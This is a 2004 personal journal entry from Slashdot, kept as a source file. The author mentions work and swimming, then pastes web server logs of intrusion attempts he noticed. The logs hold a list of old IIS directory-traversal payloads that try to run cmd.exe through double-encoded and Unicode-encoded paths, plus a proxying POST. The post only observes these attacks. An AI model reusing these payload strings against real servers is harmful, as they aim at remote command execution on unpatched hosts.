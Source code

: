 +++
title = "life continues"
date = "2004-09-10T00:00:00+00:00"
[extra]
slashdot_url = "https://slashdot.org/journal/83324/life-continues"
+++

<p>Worked many hours this week, trying to get new work web site finished.</p>
<p>So this evening I cycled to the pool and did an hours training. I'm now tired and chlorinated, but very relaxed.<br>---<br>My web server went off on one at 2am the other night (just when I was thinking of going to sleep), thrashing its hdd. Think someone was trying to hack into it with a buffer overflow. Here's the log:</p>
<blockquote>
<div><p> <tt>4.227.111.174 - - [09/Sep/2004:02:22:01 +0100] "POST http://4.227.111.174:25/ HTTP/1.1" 200 480 "-" "-"</tt></p></div> </blockquote>
<p>Sods.</p>
<p>Looking at my logs, the server was subject to a few attempts within hours of it coming online.<br>Much more than my hosted site. Guess it's people running <a href="http://www.insecure.org/">nmap</a> against adsl dial up ip ranges and getting all excited by the prospect of an open port 80.</p>
<p>Here's a classic example:</p>
<blockquote>
<div><p> <tt>81.70.101.40 - - [05/Sep/2004:17:37:46 +0100] "GET<nobr> </nobr>/.hash=eb649e3d22cdb034d91b64d4c11215f83a7e2fda HTTP/1.1" 404 372 "-" "-"<br>81.164.85.239 - - [06/Sep/2004:18:08:26 +0100] "GET<nobr> </nobr>/scripts/root.exe?/c+dir HTTP/1.0" 404 342 "-" "-"<br>81.164.85.239 - - [06/Sep/2004:18:08:28 +0100] "GET<nobr> </nobr>/MSADC/root.exe?/c+dir HTTP/1.0" 404 340 "-" "-"<br>81.164.85.239 - - [06/Sep/2004:18:08:28 +0100] "GET<nobr> </nobr>/c/winnt/system32/cmd.exe?/c+dir HTTP/1.0" 404 350 "-" "-"<br>81.164.85.239 - - [06/Sep/2004:18:08:28 +0100] "GET<nobr> </nobr>/d/winnt/system32/cmd.exe?/c+dir HTTP/1.0" 404 350 "-" "-"<br>81.164.85.239 - - [06/Sep/2004:18:08:28 +0100] "GET<nobr> </nobr>/scripts/..%255c../winnt/system32/cmd.exe?/c+dir HTTP/1.0" 404 364 "-" "-"<br>81.164.85.239 - - [06/Sep/2004:18:08:28 +0100] "GET<nobr> </nobr>/_vti_bin/..%255c../..%255c../..%255c../winnt/system32/cmd.exe?/c+dir HTTP/1.0" 404 381 "-" "-"<br>81.164.85.239 - - [06/Sep/2004:18:08:28 +0100] "GET<nobr> </nobr>/_mem_bin/..%255c../..%255c../..%255c../winnt/system32/cmd.exe?/c+dir HTTP/1.0" 404 381 "-" "-"<br>81.164.85.239 - - [06/Sep/2004:18:08:28 +0100] "GET<nobr> </nobr>/msadc/..%255c../..%255c../..%255c/..%c1%1c../..%c1%1c../..%c1%1c../winnt/system32/cmd.exe?/c+dir HTTP/1.0" 404 397 "-" "-"<br>81.164.85.239 - - [06/Sep/2004:18:08:29 +0100] "GET<nobr> </nobr>/scripts/..%c1%1c../winnt/system32/cmd.exe?/c+dir HTTP/1.0" 404 363 "-" "-"<br>81.164.85.239 - - [06/Sep/2004:18:08:29 +0100] "GET<nobr> </nobr>/scripts/..%c0%2f../winnt/system32/cmd.exe?/c+dir HTTP/1.0" 404 363 "-" "-"<br>81.164.85.239 - - [06/Sep/2004:18:08:29 +0100] "GET<nobr> </nobr>/scripts/..%c0%af../winnt/system32/cmd.exe?/c+dir HTTP/1.0" 404 363 "-" "-"<br>81.164.85.239 - - [06/Sep/2004:18:08:29 +0100] "GET<nobr> </nobr>/scripts/..%c1%9c../winnt/system32/cmd.exe?/c+dir HTTP/1.0" 404 363 "-" "-"<br>81.164.85.239 - - [06/Sep/2004:18:08:29 +0100] "GET<nobr> </nobr>/scripts/..%%35%63../winnt/system32/cmd.exe?/c+dir HTTP/1.0" 400 354 "-" "-"<br>81.164.85.239 - - [06/Sep/2004:18:08:29 +0100] "GET<nobr> </nobr>/scripts/..%%35c../winnt/system32/cmd.exe?/c+dir HTTP/1.0" 400 354 "-" "-"<br>81.164.85.239 - - [06/Sep/2004:18:08:29 +0100] "GET<nobr> </nobr>/scripts/..%25%35%63../winnt/system32/cmd.exe?/c+dir HTTP/1.0" 404 364 "-" "-"<br>81.164.85.239 - - [06/Sep/2004:18:08:29 +0100] "GET<nobr> </nobr>/scripts/..%252f../winnt/system32/cmd.exe?/c+dir HTTP/1.0" 404 364 "-" "-"<br>81.215.120.25 - - [07/Sep/2004:12:59:20 +0100] "GET<nobr> </nobr>/.hash=cf770b6f55e15660d70f00542bd58efeb7a8487f HTTP/1.1" 404 372 "-" "-"</tt></p></div> </blockquote>
<p>--<br>By the way, if you think nmap is very uncool to know about, may I direct you to the news article on nmap's site which shows Trinity actually doing a real hacking attack in the film Matrix Reloaded<br><a href="http://www.insecure.org/">http://www.insecure.org/</a></p>

